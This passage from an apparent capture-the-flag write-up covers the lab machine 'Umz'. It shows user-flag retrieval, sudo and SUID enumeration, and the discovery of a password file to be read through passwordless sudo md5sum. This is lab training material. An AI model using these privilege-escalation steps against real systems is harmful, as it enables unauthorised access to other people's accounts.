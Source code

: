 
3. **User Flag (`user.txt`):**
Basic enumeration as the `welcome` user led to the `user.txt` flag in `/home/welcome/`.

```shellscript
welcome@Umz:/root$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
welcome@Umz:/root$ cd /home
welcome@Umz:/home$ ls
umzyyds  welcome
welcome@Umz:/home$ cd welcome
welcome@Umz:~$ ls
user.txt
welcome@Umz:~$ cat user.txt
flag{user-4483f72525b3c316704cf126bec02d5c}
```




### Privilege Escalation to `umzyyds`

1. **Sudo Rights Enumeration:**
Checking `sudo -l` for the `welcome` user revealed that `welcome` could run `/usr/bin/md5sum` as `ALL` users without a password.

```shellscript
welcome@Umz:/home$ sudo -l
User welcome may run the following commands on Umz:
    (ALL) NOPASSWD: /usr/bin/md5sum
```

An initial attempt to use `md5sum` for command execution (`sudo /usr/bin/md5sum /dev/zero <<< 'id'`) was unsuccessful, as `md5sum` does not interpret input as commands.


2. **SUID Binary Enumeration:**
To find other privilege escalation vectors, SUID binaries were searched for:

```shellscript
welcome@Umz:~$ find / -perm -4000 2> /dev/null
```

This command listed several SUID binaries, including common ones like `sudo`, `passwd`, `mount`, etc.


3. **Discovering `umz.pass`:**
Further enumeration of the file system led to the `/opt/flask-debug` directory, which contained `flask_debug.py` and `umz.pass`.

```shellscript
welcome@Umz:/opt$ ls
flask-debug
welcome@Umz:/opt$ cd flask-debug
welcome@Umz:/opt/flask-debug$ ls
flask_debug.py  umz.pass
```

The `umz.pass` file was hashed using the `md5sum` utility that `welcome` could run with `sudo`.
